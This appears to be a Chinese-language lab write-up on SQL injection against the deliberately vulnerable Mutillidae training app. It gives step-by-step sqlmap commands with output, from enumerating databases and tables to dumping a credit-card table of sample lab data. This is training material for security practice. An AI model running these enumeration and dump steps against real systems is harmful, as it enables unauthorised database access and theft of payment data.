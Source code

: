 ```yaml
---
title: Mutillidae SQL Injection
date: 2020-12-28 11:01:48
categories: mutillidae
tags: 
- sql
---
```


## 使用 SQLMap

### 截断请求数据包

使用 BurpSuite 截断 User Info 数据包, 另存为请求数据文件, 命名为 `1.request`

![owasp-2017-a1-injection-sql4](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/mutillidae/owasp-2017-a1-injection-sql4.jpg)

### 获取数据库系统信息

```shell
python sqlmap.py -r 1.request -b
  ...
  [14:54:06] [INFO] the back-end DBMS is MySQL
  [14:54:06] [INFO] fetching banner
  back-end DBMS: MySQL 5 (MariaDB fork)
  banner: '10.3.17-MariaDB'
  ...
```

<!-- more -->

### 获取数据库信息

```shell
python sqlmap.py -r 1.request -p username --dbms=MySQL --dbs
  ...
  available databases [2]:
  [*] information_schema
  [*] mutillidae
  ...
```

### 获取数据库中的表

```shell
python sqlmap.py -r .\1.request -p username --dbms=MySQL -D mutillidae --tables
  ...
  Database: mutillidae
  [12 tables]
  +----------------------------+
  | accounts                   |
  | blogs_table                |
  | captured_data              |
  | credit_cards               |
  | help_texts                 |
  | hitlog                     |
  | level_1_help_include_files |
  | page_help                  |
  | page_hints                 |
  | pen_test_tools             |
  | user_poll_results          |
  | youTubeVideos              |
  +----------------------------+
  ...
```

### 查看数据表列名

```shell
python sqlmap.py -r 1.request -p username --dbms=MySQL -D mutillidae -T credit_cards --columns
  ...
  Database: mutillidae
  Table: credit_cards
  [4 columns]
  +------------+---------+
  | Column     | Type    |
  +------------+---------+
  | ccid       | int(11) |
  | ccnumber   | text    |
  | ccv        | text    |
  | expiration | date    |
  +------------+---------+
  ...
```

### 获取表内容

```shell
python sqlmap.py -r 1.request -p username --dbms=MySQL -D mutillidae -T credit_cards --columns --dump
  ...
  Database: mutillidae
  Table: credit_cards
  [5 entries]
  +------+-----+------------------+------------+
  | ccid | ccv | ccnumber         | expiration |
  +------+-----+------------------+------------+
  | 1    | 745 | 4444111122223333 | 2012-03-01 |
  | 2    | 722 | 7746536337776330 | 2015-04-01 |
  | 3    | 461 | 8242325748474749 | 2016-03-01 |
  | 4    | 230 | 7725653200487633 | 2017-06-01 |
  | 5    | 627 | 1234567812345678 | 2018-11-01 |
  +------+-----+------------------+------------+
  ...
```

### 获取特定列内容

```shell
python sqlmap.py -r 1.request -p username --dbms=MySQL -D mutillidae -T credit_cards --columns -C ccid,ccnumber --dump
  ...
  Database: mutillidae
  Table: credit_cards
  [5 entries]
  +------+------------------+
  | ccid | ccnumber         |
  +------+------------------+
  | 1    | 4444111122223333 |
  | 2    | 7746536337776330 |
  | 3    | 8242325748474749 |
  | 4    | 7725653200487633 |
  | 5    | 1234567812345678 |
  +------+------------------+
  ...
```

## 手动测试

### 使用不存在的用户名 `testuser` 登陆

![owasp-2017-a1-injection-sql1](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/mutillidae/owasp-2017-a1-injection-sql1.jpg)

### 使用 `testuser'` 查看报错信息 

![owasp-2017-a1-injection-sql2](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/mutillidae/owasp-2017-a1-injection-sql2.jpg)

### 截断并修改 sql 语句获得用户信息

![owasp-2017-a1-injection-sql3](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/mutillidae/owasp-2017-a1-injection-sql3.jpg)
